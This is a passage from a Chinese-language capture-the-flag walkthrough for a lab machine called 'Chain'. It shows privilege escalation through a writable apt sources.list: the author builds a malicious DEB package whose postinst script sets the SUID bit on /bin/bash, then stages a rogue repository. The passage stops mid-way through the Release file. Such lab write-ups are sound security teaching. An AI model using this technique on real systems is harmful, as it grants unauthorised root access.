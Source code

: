 发现用户可以无密码执行特定的 apt 命令。

## 3.2 寻找可写文件

```bash
fish@Chain:/var/www/html/d2VsY29tZTpqdW1v$ find / -writable -type f ! -path '/proc/*' ! -path '/sys/*' ! -path '/run/*' 2>/dev/null
...
/etc/apt/sources.list
...
```

发现 `/etc/apt/sources.list` 文件可写，这为我们提供了包仓库劫持的机会。

## 3.3 恶意APT包制作

### 3.3.1 创建包结构

在攻击机上创建恶意 DEB 包：

```bash
dsz/
├── DEBIAN/
│   ├── control
│   └── postinst
└── [其他文件]
```

### 3.3.2 编写控制文件

创建 `dsz/DEBIAN/control`：

```
Package: dsz
Version: 1.0
Architecture: all
Maintainer: dsz
Description: dsz
```

### 3.3.3 编写安装后脚本

创建 `dsz/DEBIAN/postinst`（需要执行权限）：

```bash
#!/bin/bash
chmod +s /bin/bash
```

这个脚本会在包安装后为 `/bin/bash` 设置 SUID 位。

### 3.3.4 构建包和仓库

```bash
# 构建DEB包
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ dpkg-deb --build dsz dsz.deb

# 生成包索引
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ dpkg-scanpackages . /dev/null > Packages

# 创建Release文件
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat > Release << 'EOF'
Archive: stable
Component: main
Origin: evil
```